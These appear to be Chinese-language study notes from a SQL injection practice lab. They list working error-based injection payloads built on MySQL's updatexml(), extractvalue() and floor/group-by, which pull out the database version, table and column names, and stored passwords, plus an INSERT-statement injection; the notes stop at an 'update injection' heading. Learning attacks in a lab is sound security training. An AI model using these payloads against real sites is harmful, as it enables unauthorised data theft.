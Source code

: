我们所有的注入的攻击，本质上是对网站上的sql进行闭合 然后执行我们自己的payload

---

#### 基于报错的 updatexml()

allen' and updatexml(1,version(),0)#

allen' and updatexml(1,concat(0x7e, version()),0)# 



获取表名：

allen' and updatexml(1,concat(0x7e, (select table_name from information_schema.tables  where table_schema=database() limit 1,1)),0)# 
allen' and updatexml(1,concat(0x7e, (select table_name from information_schema.tables  where table_schema=database())),0)# 



获取列名：

allen' and updatexml(1,concat(0x7e, (select  column_name from information_schema.columns  where table_name='member' limit 1,1)),0)# 


   再来获取数据

   allen' and updatexml(1,concat(0x7e, (select pw from member  limit 0,1)),0)# 

   

   **基于报错的extractvalue函数**

   > 用法同上

   kobe' and extractvalue(0, concat(0x7e, database())) #


   **基于floor()**
   取整函数

   报错注入准确地说应该是floor,count,group by冲突报错

   Lucy' and (select 2 from (select count(*), concat(version(), floor(rand(0) * 2))x from information_schema.tables group by x)a )#

   

   

   **insert注入**

   

   ```sql
   insert into member(`username`, `pw`, `sex`, `phonenum`, `address`, `email`) values('123', '456', 'boy', 1, 2,3 );
   ```

   insert into member(username,pw) value('allen' or updatexml(1, concat(0x7e, database()),0) or ' ',122);

   

   **update注入**
